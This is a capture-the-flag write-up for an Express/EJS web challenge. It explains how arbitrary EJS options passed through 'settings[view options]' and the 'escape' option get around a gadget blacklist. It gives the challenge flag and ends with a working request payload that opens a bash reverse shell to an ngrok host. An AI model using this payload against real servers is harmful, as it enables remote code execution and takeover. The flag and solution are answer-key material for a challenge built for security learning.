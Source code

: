 # Express JavaScript Security

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}`

## Description

My first JavaScript project.

## Difficulty

Easy

## Deployment

`docker-compose up -d`

## Solution

["Vulnerable" code segment](https://github.com/mde/ejs/blob/633b5fbfb9e3aaeb31040fa0d5ee4cb9eb44f9d8/lib/ejs.js#L471-L475).

EJS lets you pass in options via the data object. This is documented behavior.

Normally, only the following *relatively* harmless options are allowed to be passed in the data object:

```javascript
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
// We don't allow 'cache' option to be passed in the data obj for
// the normal `render` call, but this is where Express 2 & 3 put it
// so we make an exception for `renderFile`
var _OPTS_PASSABLE_WITH_DATA_EXPRESS = _OPTS_PASSABLE_WITH_DATA.concat('cache');
```

But from the above code segment, `settings['view options']` can be used to pass any arbitrary option to EJS.

This can be chained with an RCE gadget (similar to the ones used to gain RCE after prototype pollution). However, most of the known RCE gadgets from online blogs are blacklisted:

```javascript
const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]
```

It is [known](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce) that `opts.escapeFunction` can be used as an RCE gadget [here](https://github.com/mde/ejs/blob/f818bce2a5b72866f205c9284e8257f2b155aa66/lib/ejs.js#L636-L641).

However, this option can also alternatively be passed via [`opts.escape`](https://github.com/mde/ejs/blob/f818bce2a5b72866f205c9284e8257f2b155aa66/lib/ejs.js#L519).

Payload (URL decoded):

`GET /greet?name=x&settings[view options][escape]=JSON.stringify;process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/8.tcp.ngrok.io/16180 0>&1"')&settings[view options][client]=1&font=x&fontSize=x HTTP/1.1`